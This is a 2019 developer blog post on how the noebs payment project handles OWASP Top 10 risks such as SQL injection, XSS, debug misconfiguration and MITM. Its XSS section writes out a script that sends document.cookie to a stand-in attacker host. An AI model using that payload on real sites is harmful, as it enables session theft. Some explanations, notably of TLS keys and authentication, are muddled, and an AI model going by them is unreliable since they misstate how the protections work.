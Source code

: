 +++
date = 2019-08-23
linktitle = "How are we tackling OWASP 10 at noebs"
excerpt = "The Open Web Application Security Project, or OWASP, is an international non-profit organization dedicated to web application security. One of OWASP’s best-known project is the OWASP Top 10."

tags =  [
	"noebs",
	 "electronic-payment",
	 "owasp",
	 "security"
]
url = "/owasp"
+++

**OWASP** The Open Web Application Security Project is an international non-profit organization dedicated to web application security. They're best know by OWASP Top 10, a curated list of top 10 most critical security risks. This post will highlight some of the practices we are following at Solus while building our systems.

# SQL injection
This is one of the very common and the first item in OWASP Top 10. In it's simplest form, it is about sending a sql code through e.g., HTML Form input field. For this to work, the server must be *enabling* executing such an action. Let's take this simple example (using Python):

```python
form = request.form()
username = form["username"]   # there's an form field called username
sql.exec(username)    # This is a _sql injection_
```

It is almost always bad to execute raw sql queries. In fact, unless you DB is read-only, there's no need at ALL to allow raw sql queries execution.

The solution is: Don't allow raw sql execution.

# Broken Authentication

This can be broken into two categories:
- you're either building an insecure authentication system that exposes your users' data,
- or, your login system allows repeated logins attempts (brute-forcing)

We are using the industry standard practice here. We are using JWT for most of our authorization, while _planning_ to use session cookies for browser based ones. There are huge debates about JWT and session cookies, but it is all boils down to your whole system design. Sometimes, JWT fits to the whole system (if your target clients are Android/iOS), and sometimes session cookies are great, esp if you target clients are browser based.


For this, we have two solutions:
- We are using HSTS (HTTP Strict Transport Security).

> HSTS causes compliant browsers to strictly enforce web security practices. Specifically, it automatically turns all HTTP links into HTTPS links within an application, and it upgrades all SSL errors from warnings or bypassable errors into non-bypassable errors.

# XSS (Cross-site scription)

An attacker can send a malicious JS code (in the client code). It can be as bad as copying the user's cookies and gain control access to their session.

Suppose that you have an HTML form that allows your users to write some notes about their transactions, here is a sample code:

```html
<form>
<input type="text">
<label>Type your note here</label>
</form>
```

The user's form will be submitted __and__ rendered in a new page! Now this is very dangerous and it what leads to XSS security breaches. Let's see this in action. The next HTML page which will render the form result is like this:

```html
<!-- skipping through HTML head -->
<div>
<!-- form results go here -->
</div>

```

We expect our users to input stuff like time, text data BUT NOT JS CODE! What happens, if the users submitted `<script>alert("You have been spawned!")</script>`. This will launch a JS code from suspecious user's input. Now, this code can be even worse and accesses the user's cookies.

## How the attacker can log your cookies

It is quite simply actually. You can access your website cookie by accessing the cookie property of document class:
- use your browser inspector and go to console
- print document.cookie
and now you can access your cookies!

Now if the attacker wants to get that cookie, they will need to send it somewhere (most likey to a server/website they own)

- the attacker submits an unsafe js code that redirects the users to a new website (where they will log the cookie)
- now, the attacker does have access to your session and can do whatever they want while they are there (they can see your payment card info for instance, they can even submit a transaction assuming that your PIN is 0000 or your birthday)
The JS code to get your cookie is just this:

```javascript
<script>
document.location="http://mybadwebsite.com/?cookie_handler=" + document.cookie
</script>
```

__This can be even smarter by redirecting the user back to their original website!__

And now, when the user submits that un-sanitized inputs, it will:
- redirect them to a new website `http://mybadwebsite.com`
- it submits their cookie `document.cookie` to that website!

Here are a few steps you can follow to be safe against these types of attacks:
- Sanitize your users' inputs! In GO `template/html` library (the templating engine in GO, much like jinja2), it by default scapes HTML and JS tags
- If your website is something is form-like, there are a few things you can adopt:
	- let your users use markdown (it is safer)
	- you can specify some HTML elements as safe (e.g., <p>, <a>), and escape the rest. In this case, you will allow your users to have rich text experience

## The solution to all of the above issues is very simple: USE A FRAMEWORK!

The solution to all of the above issues is very simple, use a web framework! All of the modern web frameworks solves these rather naive secruity issues! I have worked with Python (Django and Flask and Starlette) and I've also worked with GO, all of them have built-in support for these common security issues! So, in practice, adapting *any* of modern web framework will save you from all of these issues, for free!

## Security Misconfigurations

I have seen this in the wild very recently in a payment system. We as developers love to have excessive stack trace and error reports while developing our services. Because there are so many errors we ought to face, it is very important that we get the whole stack trace so we get more insights into our error and fix it. However, that must stay in the development face ONLY! These stack traces (and perhaps other info) are very useful for attackers to gain access to your server.

Many of web frameworks (Django for instance) have DEBUG mode where instead of returing 500 INTERNAL SERVER ERROR, they also include the stack trace (when DEBUG=True) in Django `settings.py`. While this is very important while developing, it is very catastrophic in real life!

# Sensitive data exposure and MITM

We work in payment systems and it is very important to secure our user's data (their payment card info). These systems must adhere to even strictier rules than what OWASP offers as they have VERY sensitive data. PCI-DSS compliancy should be a #1 target for such systems and they shoud monitor and audit their systems and upgrade them regularly. _Security should be a profound part of their system design!_

> While getting EBS certificate is quite enough to have a secure system, we know that vendors often tend to modify their EBS-certified systems. This is a huge issue and it renders the whole EBS certification part useless.

## What we do in noebs to secure your data

- KISS (keeping it simple, stupid!). We are keeping it simple: we are only storing your PAN and expiration date, we don't store anything else!
- We had long discussions about storing PAN and expiration date, but we plan to change the way we store them VERY SOON!
- We have a Zero-log policy, so even if an attacker has breached our system, they will find no useful data!

## MITM Attacks

Man in the middle attacks are a very special and interesting class of attacks.

- You are using https for securing your system
- You have successfully solved CSRF, XSS and SQL Injections (hooray!)
- and now everything is fine, right?

As we know, TLS certificates are used to encrypt our request and make it secure. They are to be unbroken since the protocol is a public-private key exchange to decypher the http request. Meaning that, there's only one private key (in the server), and each client has their unique public key. So what could possibly go wrong?
Telecos (or MITM attackers) inject a tampered root CA in the host machine and replace their original one. When you send your "secure" request, it is being encrypted using the new root CA and sent to the server.
The attacker, having acquired your root CA, can then decypher your network traffic and have access to all of it.

